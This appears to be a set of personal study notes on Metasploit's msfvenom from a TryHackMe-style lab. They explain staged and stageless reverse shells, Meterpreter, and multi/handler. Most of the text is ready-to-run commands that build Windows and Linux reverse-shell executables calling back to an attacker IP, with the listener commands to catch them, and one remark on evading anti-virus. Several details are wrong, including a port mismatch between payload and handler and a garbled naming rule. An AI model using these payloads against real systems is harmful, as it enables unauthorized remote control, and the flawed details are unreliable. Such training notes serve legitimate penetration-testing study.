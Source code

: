 # MSFVENOM

- OneStop shop for all things payload.
- It is used in lower-level exploit development to generate hexadecimal shellcode when developing something like Buffer Overflow exploit.
- It can also be used to generate payloads in different formats. .exe, .py, .war, .aspx etc., to name a few
- the standard syntax is `msfvenom -p <payload> <options>`
- for example to generate a windows x64 reverse shell in an exe format, we could use
`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<host-ip> LPORT=<listen-port>`
LHOST specifies the IP to connect back to
LPORT specifies the listening port on the attackers machine

## staged vs stageless reverse shell payloads

- *Staged* payloads are sent in two parts. The first part is called a Stager. This piece of code executes on the server itself.
- It connects back to a waiting listener
- It relies on the listener to load the real payload, executing directly, and preventing it from touching the disk where it could be caught by anti-virus solutions.
- thus the payload is split into two parts. 
- a small initial stager and then the bulkier reverse shell code which is downloaded when the stager is activated. staged payload requires a special listener usually the *Metasploit multi/handler*.
- staged payloads are hard to use
- modern day anti-virus solutions will also make use of AMSI (Anti-Malware scan interface) to detect the payload as it is loaded into the memory by the stager, making staged payloads less effective than they would have been once in this area.

- stageless payloads are much common, these are what we have been using till now. they are entirely self-contained which when executed returns back a shell to the waiting listener on the attacker's machine.- stageless payloads are easier to use and catch
- they are bulkier and easy for an anti-virus scan to catch 
- they are easy to be detected by an IDS and be thrown off or removed from.

## meterpreter

- this is metasploits own version of full featured shell.
- they are completely stable and it is good to work with them when we are trying to exploit windows targets.
- they have functionality such as file uploads and file downloads.
- if we want to use metasploits post-exploitation tools then we need to use meterpreter shell.
- downside: they are banned from use in certain certification examinations hence you need to learn alternatives.

## payload naming conventions

- the basic naming convention is `<os>/<arch>/<payload>`
- for example:- `linux/x86/shell_reverse_tcp`, this would generate a stageless reverse shell for an x86linux target.
- the exception to these convention is windows 32 bit targets. for these things the arch is not specified. `windows/shell_reverse_tcp`
- for windows 64 bit the arch will be specified. `windows/x64/shell_reverse_tcp`
- stageless payloads are denoted with `_` underscores.
- the staged payload must have been `reverse/shell/payload`.
- this rule also applies to meterpreter payloads. a windows 64 bit staged meterpreter payload would look like this. `windows/x64/meterpreter/reverse_tcp`
- linux 32 bit stageless meterpreter payloads look like `linux/x86/meterpreter_reverse_tcp`
- one of the useful commands is
- `msfvenom --list payloads`

## Sample Questions
- Generate a staged reverse shell for a 64 bit Windows target, in a .exe format using your TryHackMe tun0 IP address and a chosen port.
`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=10.10.128.123 LPORT=443`

- What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell ?
`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443`

## multi/handler
- launch msfconsole
- use multi/handler
- options
- we need to set three options, PAYLOAD, LHOST, LPORT
- these are all identical options when we are trying to generate shell code with msfvenom
- payload - payload specific to the target
- LHOST/LPORT - is where we receive the shell
- metasploit will not listen on all interfaces like socat and netcat
- it must be told to listen to on a specific surface.
- `set payload <payload>`
- `set LHOST <host>`
- `set LPORT <port>`
- we should be able to start the listener with the command `exploit -j`
- this will metasploit to launch the module, running as a job in the background.
- to start a listener in the background it is `exploit -j`
- to a specific reverse shell session it is `sessions <session_num>`

## examples using msfvenom:-
1.
generate an msfvenom payload with the following command
`msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.18.115.112 LPORT=3333`

copy the shell.exe and launch the msfconsole.

```
msfconsole
use multi/handler
options
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.18.115.112 
set LPORT 4444
run or exploit -j
sessions <session_number>
```

with msfconsole you can catch a meterpreter shell.

2.

creating a stageless shell is as follows
`msfvenom -p windows/x64/shell_reverse_tcp -f exe -o stageless_shell.exe LHOST=10.18.115.112 LPORT=33`

And can you catch it with netcat. You can catch stageless shells with netcat.
`nc -lnvp 33` and yes can.

3.

How about staged shells ?
creating a staged shell is as follows
`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o staged_shell.exe LHOST=10.118.115.112  LPORT=312`

can you catch it with netcat ?
